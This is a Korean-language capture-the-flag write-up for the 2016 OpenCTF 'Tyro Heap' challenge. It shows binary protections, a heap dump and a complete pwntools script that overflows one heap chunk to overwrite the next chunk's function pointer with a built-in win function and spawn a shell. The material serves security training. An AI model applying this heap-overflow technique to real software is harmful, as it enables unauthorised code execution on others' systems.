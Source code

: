 # [2016_OpenCTF] \[PWN] Tyro Heap

```
[*] '/root/labs/ctf/2016_openctf/tyro_heap/tyro_heap'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### 취약점 - Heap Overflow

```
Tyro Heap
c) create heap object
a) read type a into object
b) read type b into object
f) free object
e) run object function
q) quit
::> c
object #0 created
c) create heap object
a) read type a into object
b) read type b into object
f) free object
e) run object function
q) quit
::> c
object #1 created
c) create heap object
a) read type a into object
b) read type b into object
f) free object
e) run object function
q) quit
::> b
object id ?: 0
give me input_b: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
got [aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa]

0x804b000 FASTBIN {
  prev_size = 0x0, 
  size = 0x29, 
  fd = 0x80484e0 <puts@plt>, 
  bk = 0x61616161, 
  fd_nextsize = 0x61616161, 
  bk_nextsize = 0x61616161
}
0x804b028 PREV_INUSE {
  prev_size = 0x61616161, 
  size = 0x61616161, 
  fd = 0x61616161, 
  bk = 0x61616161, 
  fd_nextsize = 0x61616161, 
  bk_nextsize = 0x61616161
}
```

read type b into object 기능에서 힙 오버플로우가 가능합니다.

### Exploit

1. chunk가 만들어지면 해당 청크의 첫 4바이트는 puts@plt로, run object function 기능을 실행하면 이 부분을 참조하여 함수를 실행합니다.
2. 청크를 2개 만들어놓고 오버플로우를 통해 두번째 청크의 주소를 win 함수의 주소로 바꾼 후, run object function 기능을 실행하면 쉘을 획득할 수 있습니다.(win 함수는 출제자가 바이너리에 내장시켜 놓았습니다.)

```python
from pwn import *

p = process("./tyro_heap")
print p.recv()
p.sendline("c")
print p.recv()
p.sendline("c")
print p.recv()

p.sendline("b")
print p.recv()
p.sendline("0")
print p.recv()
payload =""
payload+="a"*0x20
payload+=p32(0x29)
payload+=p32(0x08048660)
p.sendline(payload)
print p.recv()
p.sendline("e")
print p.recv()
p.sendline("1")
p.interactive()
```

